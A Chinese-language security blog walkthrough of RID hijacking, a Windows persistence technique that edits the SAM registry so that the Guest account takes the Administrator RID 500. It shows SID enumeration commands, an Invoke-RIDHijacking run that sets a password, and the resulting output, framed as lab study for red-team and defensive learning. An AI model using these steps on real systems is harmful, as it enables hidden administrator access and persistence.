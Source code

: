 ```yaml
---
title: RID Hijacking
date: 2020-12-31 23:59:53 +0800
categories: [域安全, TA0003持久化]
tags: [RIDHijacking, TA0003持久化]     # TAG names should always be lowercase
typora-root-url: ..
---
```




# RID Hijacking

## 0x00 简介

通过操作SAM注册表，修改本地账户RID为500，实现RID劫持



**参考：**

[Persistence – RID Hijacking](https://pentestlab.blog/2020/02/12/persistence-rid-hijacking/)

[Rid Hijacking: When Guests Become Admins](https://blog.stealthbits.com/rid-hijacking-when-guests-become-admins/)



## 0x01 相关概念

使用psexec.exe以system权限打开注册表*HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users*，

![img](/assets/img/1963614-20200402113951327-1904547625.png)

![img](/assets/img/1963614-20200405193338454-466131382.png)

 

 **Powershell获取部分SID：**

```
# 获取本地账户SID
PS C:\Users\win10> Get-LocalUser | Format-Table Name, SID

Name               SID
----               ---
Administrator      S-1-5-21-2464835639-589224845-1263889796-500
DefaultAccount     S-1-5-21-2464835639-589224845-1263889796-503
DELL               S-1-5-21-2464835639-589224845-1263889796-1000
Guest              S-1-5-21-2464835639-589224845-1263889796-501
WDAGUtilityAccount S-1-5-21-2464835639-589224845-1263889796-504

# 获取本地账户安全组SID
PS C:\Users\win10> Get-LocalGroup | Format-Table Name, SID

# 获取域账户SID
PS C:\Users\Administrator> Get-ADUser -Filter * | Format-Table Name, SID

Name           SID
----           ---
Administrator  S-1-5-21-411020405-2313891870-2612819012-500
Guest          S-1-5-21-411020405-2313891870-2612819012-501
DefaultAccount S-1-5-21-411020405-2313891870-2612819012-503
krbtgt         S-1-5-21-411020405-2313891870-2612819012-502
win10          S-1-5-21-411020405-2313891870-2612819012-1107
win7           S-1-5-21-411020405-2313891870-2612819012-1109

# 获取域账户安全组
PS C:\Users\Administrator> Get-ADGroup  -Filter * | Format-Table Name, SID
```

一般RID 500是Administrator, 501是Guest, 503是DefalutAccount

此外，Windows会预定义一些account和group，如*NT AUTHORITY\Local Service S-1-5-19*，在这里可以查看常见SID：

https://support.microsoft.com/en-au/help/243330/well-known-security-identifiers-in-windows-operating-systems

https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers#well-known-sids

##  

## 0x02 RID Hijacking

RID劫持就是修改注册表，将Guest等非administrator账户所对应的RID改成500，冒充Administrator； 此外，如果账户是禁用的，还需要修改偏移`0x38`处的值来启用账户。

### 1. Invoke-RIDHijacking.ps1

```
PS C:\Windows\system32> net user guest /active:yes
The command completed successfully.

PS C:\Windows\system32> Import-Module C:\Users\win10\Desktop\Invoke-RIDHijacking.ps1
PS C:\Windows\system32> Invoke-RIDHijacking -UseGuest -RID 500 -Password Password123
[+] Elevated to SYSTEM privileges
[+] Found Guest account
[+] Target account username: Guest
[+] Target account RID: 501
[*] Current RID value in F for Guest: 01f4
[*] Setting RID 500 (01f4) in F for Guest
[*] Setting password to user...
The command completed successfully.

[+] Password set to Password123
[+] SUCCESS: The RID 500 has been set to the account Guest with original RID 501
```

在win10上执行此操作会导致该账户配置文件损坏，桌面登录时explorer.exe不断崩溃重启，只能runas或网络登录。

```
PS C:\Windows\system32> runas /user:guest powershell.exe
Enter the password for guest:
Attempting to start powershell.exe as user "WIN10-PC\guest" ...
```

通过whoami命令查看Guest现在对应的SID，但并没有显示Guest账户加入Administrators group中；此外，用powershell Get-LocalUsers命令并没有得到更新后的RID，与用whoami看到的不一致。 

 ![img](/assets/img/1963614-20200405192356137-736697671.png) 











 

 